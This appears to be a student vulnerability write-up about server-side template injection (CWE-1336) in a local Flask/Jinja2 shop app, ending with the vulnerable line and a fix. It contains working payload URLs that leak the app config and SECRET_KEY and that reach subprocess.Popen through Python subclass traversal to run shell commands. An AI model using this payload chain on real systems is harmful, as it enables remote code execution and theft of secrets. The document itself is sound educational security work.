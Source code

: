 # Analysis CWE-1336: Improper Neutralization of Special Elements Used in a Template Engine

## Introduction 
Many web applications use template engines that allow developers to insert externally-influenced values into free text or messages in order to generate a full web page, document, message, etc. Such engines include Twig, Jinja2, Pug, Java Server Pages, FreeMarker, Velocity, ColdFusion, Smarty, and many others - including PHP itself. Some CMS (Content Management Systems) also use templates.

Template engines often have their own custom command or expression language. If an attacker can influence input into a template before it is processed, then the attacker can invoke arbitrary expressions, i.e. perform injection attacks. For example, in some template languages, an attacker could inject the expression "{{7*7}}" and determine if the output returns "49" instead. The syntax varies depending on the language.

We our case we are using Jinja2 to generate this templates.

## Example

We can search for products based on a url , i.e ```http://127.0.0.1:5000/products?minPrice=5&maxPrice=40&input=&category=Drinkware``` . But we can exploit this since our category field is vulnerable to SSTi.
The link ```http://127.0.0.1:5000/products?minPrice=5&maxPrice=40&input=&category={{2*2}}``` returns the following result.

![image](https://github.com/uTigas/SIOProject_1/assets/125353199/81135b32-37f2-4e2c-ad74-237fff2f3e06)

As we can see the category is 4 the result of 2*2. But this raises the question who did this calculation and why? The answer is that the server did , so that means that we are executing code on the server and the server ran the code for the calculation because ```{{ }}``` signals to Jinga2 to render something that it in our case the result of 2\*2.
If we try the link ```http://127.0.0.1:5000/products?minPrice=5&maxPrice=40&input=&category={{print("Hi")}}``` we will see something curious.

![image](https://github.com/uTigas/SIOProject_1/assets/125353199/e410f795-abcf-4bfe-bc9e-1eaca2c0e50e)

This error is the result of the template engine running in a sandbox where we cant do function calls directly i.e we cant do ```print("Hi")```.
So what do we have access to? We at least have access to numbers as we show above , but also strings , list , dict , tuple , some variables like config , request .

```http://127.0.0.1:5000/products?minPrice=5&maxPrice=40&input=&category={{%20config%20}}``` returns the following result.

![image](https://github.com/uTigas/SIOProject_1/assets/125353199/f2ed6d6b-6e34-4d5a-848e-b0b83b6cf40a)

In here we have access to something we probably shouldnt have, namely 'SECRET_KEY': 'dev'.

```http://127.0.0.1:5000/products?minPrice=5&maxPrice=40&input=&category={{%20dict.__base__.__subclasses__()%20}}``` returns the following result.

![image](https://github.com/uTigas/SIOProject_1/assets/125353199/3b00e088-2795-453d-ae84-925a4d0c3d28)

What happened here is that we are running this piece of code ```dict.__base__.__subclasses__()```. ```dict``` is a class and ```dict.__base__``` returns the base class of ```dict``` which is ```Object```. Then we basicly do ```Object.subclasses()``` which returns a list of all classes ( since all classes come from the ```Object``` class). And this has give us the opportunity to access hundreds of new classes and functions in those classes , and have some fun with them. ```{{dict.__base__.__subclasses__()[351]}}``` is gonna give us ```<class 'subprocess.Popen'>``` which spawn some process. ( the index to find this class may vary )

```http://127.0.0.1:5000/products?minPrice=5&maxPrice=40&input=&category={{dict.__base__.__subclasses__()[351](%22ls%20%22,shell=True,stdout=-1).communicate()[0].strip()}}```

Lists the file on the directory with ```ls```.

![image](https://github.com/uTigas/SIOProject_1/assets/125353199/0d2e307a-cb52-4064-af3a-f7c59ddf43f7)

```http://127.0.0.1:5000/products?minPrice=5&maxPrice=40&input=&category={{dict.__base__.__subclasses__()[351](%22cat%20__init__.py%22,shell=True,stdout=-1).communicate()[0].strip()}}```

Shows the contents of ```__init__.py``` which is source code of our website.

![image](https://github.com/uTigas/SIOProject_1/assets/125353199/b29ae7e0-eeb9-423e-861a-06937e28156c)

At this point we have access to ```bash``` commands and we can go some damage to the server.

## Weak code

![image](https://github.com/uTigas/SIOProject_1/assets/125353199/f18d3a42-f402-4011-a008-cafd5530d711)

On this line we are calling rendering on category as a template but we never check if category is safe to render().

## Fix 

- Category shouldnt be rendered as a template it should be only treated as text to inject in some template, never a template.

![image](https://github.com/uTigas/SIOProject_1/assets/125353199/f427b211-2250-44d1-a925-e07b80728718)

- If we really need to render Category has a template we could also validade that category is something safe to render. 









